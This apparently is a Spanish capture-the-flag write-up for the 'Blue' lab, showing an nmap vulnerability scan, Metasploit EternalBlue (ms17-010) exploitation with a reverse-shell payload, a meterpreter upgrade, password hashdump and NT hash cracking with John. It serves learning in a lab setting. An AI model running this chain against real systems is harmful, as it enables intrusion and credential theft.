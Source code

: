 # BLUE

## NMAP
![alt text](image-1.png)
![alt text](image.png)

Buscamos vulnerabilidades 

    nmap -sV -sC --script vuln 10.10.141.85

![alt text](image-2.png)

## Metasploit
Buscamos la vunerabilidad anterior 

    search ms17-010

![alt text](image-3.png)

Establecemos ``RHOSTS``
![alt text](image-4.png)

    set payload windows/x64/shell/reverse_tcp

Ejecutamos el exploit y tendremos una shell, salimos con ``CTRL + Z``

Buscamos un modulo que permita cambiar de shell a meterpreter

    search shell_to_meterpreter


![alt text](image-5.png)

Ejecutamos con ``run`` y tendremos 2 sesiones iniciadas
![alt text](image-6.png)


Listamos todos los procesos corriendo con ``ps``
![alt text](image-7.png)

Tendremos que migrar a un proceso, en este caso ``1540``

    migrate 1540

Usamos el comando ``hashdump``, para ver los hashes de las contraseñas
![alt text](image-8.png)

Pasamos el hash a un txt y lo rompemos

    echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt

    john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

![alt text](image-9.png)

## Flags
En ``C:`` encontraremos la primera flag
![alt text](image-10.png)

En ``c:\Windows\System32\Config`` encontramos la segunda flag
![alt text](image-11.png)

Dentro de los documentos de Jon encontramos la tercera flag
![alt text](image-12.png)
